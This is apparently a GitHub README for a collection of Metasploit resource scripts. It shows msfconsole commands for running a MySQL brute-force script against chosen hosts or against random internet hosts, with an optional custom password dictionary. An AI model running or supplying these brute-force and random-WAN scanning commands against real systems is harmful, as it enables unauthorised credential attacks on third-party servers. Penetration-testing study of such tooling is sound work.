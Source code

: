 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](hgft)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource script in 3 diferent ways:

- execute the resource script with default settings
( scan: 192.168.1.0/24 | Dont scan WAN | Use Default dicionary )

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts inputed by user

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to search use your own dicionary file

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'



<br />

